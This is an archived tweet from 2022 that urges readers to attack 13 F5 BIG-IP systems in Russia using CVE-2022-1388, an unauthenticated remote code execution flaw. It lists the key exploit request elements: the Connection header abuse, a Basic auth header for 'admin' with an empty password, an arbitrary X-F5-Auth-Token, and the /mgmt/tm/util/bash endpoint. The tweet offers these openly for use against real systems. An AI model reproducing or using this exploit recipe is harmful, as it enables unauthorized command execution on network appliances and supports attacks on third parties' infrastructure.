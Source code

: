 
# three_cube
**https://twitter.com/three_cube/status/1549902099520991232 _at 2022-07-20 23:40:30_**
<blockquote>
13 of these F5 Big IP systems in Russia. 

Use this exploit to take them down!

#CVE-2022-1388 F5's BIG-IP Unauth RCE

Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything

https://x.x.x.x:443/mgmt/tm/util/bash https://t.co/HPloQX1A2Y
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+FSTxprbagAAYKdP.png" alt="http://pbs.twimg.com/media/FSTxprbagAAYKdP.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---
